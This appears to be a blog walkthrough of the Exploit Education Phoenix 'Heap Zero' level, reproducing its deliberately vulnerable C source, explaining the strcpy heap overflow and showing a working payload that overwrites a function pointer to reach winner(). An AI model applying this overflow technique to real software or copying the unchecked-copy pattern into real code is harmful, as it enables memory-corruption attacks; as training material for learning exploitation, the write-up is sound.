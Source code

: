 ```yaml
---
title: " Exploit Education | Phoenix | Heap Zero"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct data {
  char name[64];
};

struct fp {
  void (*fp)();
  char __pad[64 - sizeof(unsigned long)];
};

void winner() {
  printf("Congratulations, you have passed this level\n");
}

void nowinner() {
  printf(
      "level has not been passed - function pointer has not been "
      "overwritten\n");
}

int main(int argc, char **argv) {
  struct data *d;
  struct fp *f;

  printf("%s\n", BANNER);

  if (argc < 2) {
    printf("Please specify an argument to copy :-)\n");
    exit(1);
  }

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  strcpy(d->name, argv[1]);

  printf("data is at %p, fp is at %p, will be calling %p\n", d, f, f->fp);
  fflush(stdout);

  f->fp();

  return 0;
}
```

To learn more about heap exploitation, see the references at the end.

We will work with the **32bit** binaries for the heap levels because the **64bit** binaries have some addresses issues.

This code allocates two memory chunks and stores them in **d** and **f** so **f** is after **d** in the heap, then it uses **strcpy** to copy **argv[1]** to **d->name** but with out size checking, a classic overflow.

So if our input is large enough we can overwrite the value of **f->fp** to point to **winner** function.

Let's run the program:

```
$ /opt/phoenix/i486/heap-zero AAAA
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x804884e
level has not been passed - function pointer has not been overwritten
```

The offset between **data** and **fp** = 0xf7e69050 - 0xf7e69008 = 72 bytes.

Lets't get the address of winner function:

```
$ objdump -t /opt/phoenix/i486/heap-zero | grep winner
0804884e g     F .text	00000019 nowinner
08048835 g     F .text	00000019 winner
```

**winner** function is at  **0x08048835**.

# Solution:

```
$ /opt/phoenix/i486/heap-zero $(python -c "print 'A'*72 + '\x35\x88\x04\x08'")
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x8048835
Congratulations, you have passed this level
```

#### References:

[https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/)

[https://sensepost.com/blog/2017/painless-intro-to-the-linux-userland-heap/](https://sensepost.com/blog/2017/painless-intro-to-the-linux-userland-heap/)